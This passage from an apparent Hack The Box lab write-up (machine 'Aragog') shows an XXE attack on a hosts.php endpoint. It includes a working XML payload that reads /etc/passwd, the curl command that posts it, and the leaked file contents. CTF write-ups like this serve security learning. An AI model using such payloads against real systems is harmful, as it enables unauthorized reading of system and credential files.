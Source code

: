 The information inside this XML document looks like it could be related to what the `hosts.php` page is displaying. To find out, I sent the XML file over to the page to see what happens.
```bash
root@vmw-kali:~/htb/aragog# curl -X POST -d @test.txt 10.10.10.78/hosts.php

There are 62 possible hosts for 255.255.255.192

root@vmw-kali:~/htb/aragog# 
```

It looks like I'm doing XML injection today! One small problem though. I don't know anything about XML injection.

<p align="center">
    <img src="https://media.giphy.com/media/xUPGcmF2iGsTGEFVL2/giphy.gif" width="200">
</p>

# <a name="exploit"></a> Exploitation
After a few hours of googling *xml vulnerabilities*, I learn about a technique called **XML External Entities (XXE)** which is sitting at #4 on the [2017 OWASP Top 10](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE))

> An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when a weakly configured XML parser processes XML input containing a reference to an external entity. This attack may lead to the disclosure of confidential data, denial of service, server-side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts. 

It seems that if this web server is vulnerable to XXE, I should be able to manipulate the XML file to reference an entity that is external to the XML document, such as a local file on the system.

I look at some example XML documents that exploit XXE, modify the XML in `test.txt` and save the file as `totallylegit.xml`.
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```

 If this works, it should return the contents of `/etc/passwd`. I throw the XML containing XXE at `hosts.php` and see what happens.
```bash
root@vmw-kali:~/htb/aragog# curl -X POST -d @totallylegit.xml 10.10.10.78/hosts.php

There are 4294967294 possible hosts for root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
```